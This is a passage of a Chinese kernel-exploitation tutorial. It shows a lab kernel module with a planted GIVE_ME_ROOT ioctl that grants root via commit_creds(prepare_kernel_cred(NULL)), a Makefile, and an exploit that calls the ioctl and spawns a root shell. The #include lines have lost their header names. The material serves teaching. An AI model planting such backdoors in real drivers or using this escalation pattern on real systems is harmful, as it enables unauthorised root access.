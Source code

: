 ```
            }
            break;
        case GIVE_ME_ROOT:
            printk("GIVE_ME_ROOT\n");
            commit_creds(prepare_kernel_cred(NULL));
            return 0;
 
        default:
            printk(KERN_WARNING "unsupported command %d\n", cmd);
 
        return -EFAULT;
    }
    return 0;
}
 
module_init(chardev_init);
module_exit(chardev_exit); 
```

源码解读：

*   头文件中，`GIVE_ME_ROOT`设置为`_IO`（输入、输出）并且没有参数值
*   C 代码由上一节`ioctl`的示例代码更改，添加了部分代码：
    *   使用`ioctl`命令宏添加了一个`GIVE_ME_ROOT`的命令
    *   `GIVE_ME_ROOT`执行时会执行`commit_creds(prepare_kernel_cred(NULL))`

Makefile 如下：

```
obj-m = escalation.o
 
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
 
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

接下来编写 Exp 文件，命名为 **_Exploit.c_**：

```
#include #include #include #include #include #include "escalation.h"
 
void main()
{
    int fd, ret;
 
    fd = open("/dev/chardev0", O_NOCTTY);
    if (fd < 0) {
        printf("Can't open device file\n");
        exit(1);
    }
 
    ret = ioctl(fd, GIVE_ME_ROOT);
    if (ret < 0) {
        printf("ioctl failed: %d\n", ret);
        exit(1);
    }
    close(fd);
 
    execl("/bin/sh", "sh", NULL);
} 
```

